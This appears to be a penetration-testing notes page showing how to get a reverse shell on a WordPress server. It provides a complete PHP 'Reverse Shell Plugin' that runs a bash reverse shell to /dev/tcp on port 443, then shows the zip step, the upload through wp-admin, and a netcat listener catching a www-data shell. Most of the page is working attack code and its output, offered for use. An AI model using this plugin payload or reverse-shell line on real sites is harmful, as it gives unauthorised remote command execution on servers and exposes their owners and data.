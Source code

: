 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Reverse Shell via Wordpress plugin

Create a new wordpress plugin using the simple php file below

```php
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/127.0.0.1/443 0>&1'");
?>
```



In order to upload the shell as a plugin, we need to zip it first then upload it as a plugin via `wp-admin`

```sh
zip reverse-shell.zip reverse-shell.php
```



<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

after activating it,  use netcat to listen on port 443 and catch the shell

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvp 443                          
listening on [any] 443 ...
connect to [IP_ADDRESS] from [IP_ADDRESS]
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@b634eda18583:/var/www/html/wp-admin$ pwd
pwd
/var/www/html/wp-admin
```



**Resources:**

* [https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell](https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell)
